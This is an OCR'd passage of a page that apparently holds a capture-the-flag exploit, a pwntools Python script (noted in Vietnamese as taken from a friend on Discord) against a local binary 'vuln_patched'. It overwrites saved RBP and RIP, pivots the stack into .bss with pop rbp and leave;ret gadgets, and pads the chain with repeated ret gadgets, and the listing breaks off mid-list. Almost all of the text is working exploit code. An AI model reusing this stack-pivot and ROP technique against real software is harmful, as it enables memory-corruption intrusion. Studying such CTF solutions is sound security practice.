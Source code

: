 exp (lụm từ 1 fen trên discord) 

```python
from pwn import *

elf =  context.binary = ELF('./vuln_patched')
libc = ELF('./libc.so.6')
gs = '''
'''
# ========= Gadgets =========
pop_rbp = 0x401181
leave_ret = 0x401226
pop_rcx = 0x40117e
ret = 0x401227

p = process()
# gdb.attach(p, gdbscript=gs)

payload = flat({
    0x20:0x404038 + 0x20,  #Setting this as RBP
    0x28:0x0000000000401205,  # RIP --> gets of main
}, filler=b'\x00')

log.info(f'Sent payload: {payload}')
p.sendline(payload)
input("Press Enter to continue...")
payload = flat({
    0: [
        pop_rbp,  # pop rbp
        0x0000000000404150,  # points to main address in .bss
        leave_ret   # leave ; ret
    ],
    0x20: elf.sym.print + 0x20,  # RBP --> @puts+0x20
    0x28: [
        0x401227, # increasing the stack space
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
```